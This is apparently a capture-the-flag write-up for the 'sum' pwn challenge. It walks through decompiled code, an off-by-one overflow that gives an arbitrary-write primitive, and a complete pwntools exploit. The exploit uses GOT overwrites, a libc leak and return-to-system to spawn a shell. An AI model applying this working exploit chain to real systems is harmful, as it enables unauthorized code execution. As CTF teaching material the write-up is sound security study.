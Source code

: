 # Sum (pwn)  
Let's look at the binary  
![image](https://github.com/user-attachments/assets/0d1b0a5c-9e2c-4474-86e6-208820bf90fc)  

And if we run it  
![image](https://github.com/user-attachments/assets/bf9e3764-7b6b-460b-9e0a-86e2c490fdbc)  
It seems to just add up the numbers and then add them up.  

Let's look at the binary in Ghidra to see what is really going on.  


![image](https://github.com/user-attachments/assets/6752ed72-95d9-4ab5-9367-555556810a2a)  

Ok, nothing special going on in the main function. Let's check out `sum()` and `read_ints()`.  
```c

void read_ints(long buf,long nRead)

{
  long lVar1;
  int iVar2;
  long in_FS_OFFSET;
  long i;
  
  lVar1 = *(long *)(in_FS_OFFSET + 0x28);
                    /* you can actually do 6 writes */
  for (i = 0; i <= nRead; i = i + 1) {
    iVar2 = __isoc99_scanf(&longlongdecimal,buf + i * 8);
    if (iVar2 != 1) {
                    /* WARNING: Subroutine does not return */
      exit(-1);
    }
    if (*(long *)(buf + i * 8) == 0) break;
  }
  if (lVar1 == *(long *)(in_FS_OFFSET + 0x28)) {
    return;
  }
                    /* WARNING: Subroutine does not return */
  __stack_chk_fail();
}


int sum(long buf,long *ctr)

{
  long lVar1;
  long in_FS_OFFSET;
  int i;
  
  lVar1 = *(long *)(in_FS_OFFSET + 0x28);
  *ctr = 0;
  i = 0;
  while (*(long *)(buf + (long)i * 8) != 0) {
    *ctr = *(long *)(buf + (long)i * 8) + *ctr;
    i = i + 1;
  }
  if (lVar1 != *(long *)(in_FS_OFFSET + 0x28)) {
                    /* WARNING: Subroutine does not return */
    __stack_chk_fail();
  }
  return i;
}
```

Ok, so you might notice that due to the `<=` in `read_ints` we can actually read 6 long long integers into our array of 5 integers.  
Cool, lets look into this further.  
First, since there is no zero will `sum()` end? Inspecting in GDB shows that there will always be a zero after our sixth write, so we are good in that sense.  
Also, the main function will `exit(-1)` if we sum more than five integers.  
Now ... the important part is the following:  
![image](https://github.com/user-attachments/assets/737331d4-bb60-46ad-98ae-7c4a5578d092)  
The thing we overflow into, is the pointer that we pass into the `sum()` function.  
Therefore we can control the memory address that we are writing the sum of our values to.  
Nice! Let's ignore the `exit()` issue for a second and try to get this write primitive to work.  

We can wite to `addr` by sending `x1` `x2` `x3` `x4` `x5` `addr`, and the value that we write will be `x1+x2+x3+x4+x5+addr`.  
Now, since `addr` might be big, something we might want to do is an integer overflow so that we can write values smaller than `addr`.  
Since we can only write `long long int`, then we will make `x1+x2+addr` equal 0 (after the overflow) and then we can send `1` `1` and `val-2` where `val` is the value that we need to write.  
Therefore our sum will be equal to `val` after the integer overflow.

```python
def write(addr, value, io = r):
        max_long = 0x10000000000000000 
        max_longlongint = 0x7fffffffffffffff
        complement = max_long - addr - max_longlongint 
        written = value - 2 
        io.sendline(str(complement).encode()) #complement + addr + max_longlongint = 0
        for i in range(2):
            io.sendline(str(1).encode()) #we need 6 total writes to trigger exit
        io.sendline(str(max_longlongint).encode()) # since the largest number we can use is max long long int we need this
        io.sendline(str(written).encode()) #we send what we want to write-2 due to the extra writes
        io.sendline(str(addr).encode()) #overwrite address of the accumulator
```
Sweet! Now what do we do about the `exit()`?  
We can actually do something that will help us twofold. If we overwrite the got entry for exit with the main function, that means we will get another write every time we trigger the `exit()`.  
After doing that we have infinite writes.  

Turning this into a shell might take some tricks tho. We could either do a ROPchain and use a stack pivot gadget to execute it, or we could get a libc leak and do a return to system.  
I don't know which one was easier but I decided to take the second route.  
In the `main` function, if we don't trigger `exit` we call `printf`. We can use our write primitive to overwrite the `printf` got entry with anything we want.  
It just so happens that the stack looks like the follwing right before printf:
```
| return addr |
|     x1      |
|     x2      |
     ...
```
That means that if instead of `printf` we executed `pop reg; ret`, we would return to the address pointer by x1.  
We can abuse this to get a libc leak.  
Since this binary has No PIE, we can use the old trick of `puts(puts@got)`, which will print the contents of the GOT entry for `puts` i.e. the address of puts in libc.  
```python
# 0x0000000000400a43: pop rdi; ret;
    pop_rdi_ret = 0x400a43
    write(exe.got.printf, pop_rdi_ret)

    #libc leak
    r.clean()
    r.sendline(str(pop_rdi_ret).encode())
    r.sendline(str(exe.got.puts).encode())
    r.sendline(str(exe.sym.puts).encode()) #call puts(&puts)
    r.sendline(str(0x4009a7).encode()) #call exit
    r.sendline(b"0")
    leak = int.from_bytes(r.recvline()[:-1],'little')
    log.success(hex(leak))
```
Something to notice here is that we DONT want to trigger `exit()` so that `printf` happens. Therefore we also need to manually call exit so that we can keep writing.  
After that we can use the same technique to call `system("/bin/sh")`.  

All together:  
```python
#!/usr/bin/env python3

from pwn import *

exe = ELF("sum_ccafa40ee6a5a675341787636292bf3c84d17264_patched")
libc = ELF("libc.so")
ld = ELF("./ld-2.27.so")

context.binary = exe


def conn():
    r = process([exe.path])
    if args.DEBUG:
        gdb.attach(r)

    return r

def main():
    r = conn()

    def write(addr, value, io = r):
        max_long = 0x10000000000000000 
        max_longlongint = 0x7fffffffffffffff
        complement = max_long - addr - max_longlongint 
        written = value - 2 
        io.sendline(str(complement).encode()) #complement + addr + max_longlongint = 0
        for i in range(2):
            io.sendline(str(1).encode()) #we need 6 total writes to trigger exit
        io.sendline(str(max_longlongint).encode()) # since the largest number we can use is max long long int we need this
        io.sendline(str(written).encode()) #we send what we want to write-2 due to the extra writes
        io.sendline(str(addr).encode()) #overwrite address of the accumulator
    #    log.info(hex(complement+2+written+addr+max_longlongint))

    #gdb.attach(r)
    exit_got = exe.got.exit #0x601048
    main_addr = exe.sym.main

    #if we write the address of main into the got of exit
    # we can loop back to main by triggering the exit which we can do if we do 6 total writes 
    write(exit_got, main_addr)

    # now we have infinite writes 
    
    # 0x0000000000400a43: pop rdi; ret;
    pop_rdi_ret = 0x400a43
    write(exe.got.printf, pop_rdi_ret)

    #libc leak
    r.clean()
    r.sendline(str(pop_rdi_ret).encode())
    r.sendline(str(exe.got.puts).encode())
    r.sendline(str(exe.sym.puts).encode()) #call puts(&puts)
    r.sendline(str(0x4009a7).encode()) #call exit
    r.sendline(b"0")
    leak = int.from_bytes(r.recvline()[:-1],'little')
    log.success(hex(leak))

    #return to libc
    libc.address = leak - libc.sym.puts
    log.success(hex(libc.address))
    binsh = next(libc.search(b'/bin/sh'))
    r.sendline(str(pop_rdi_ret).encode())
    r.sendline(str(binsh).encode())
    r.sendline(str(libc.sym.system).encode())
    r.sendline(b"0")

    r.interactive()


if __name__ == "__main__":
    main()
```
![image](https://github.com/user-attachments/assets/eb394a2e-da35-4937-95ad-412d6959dd62)

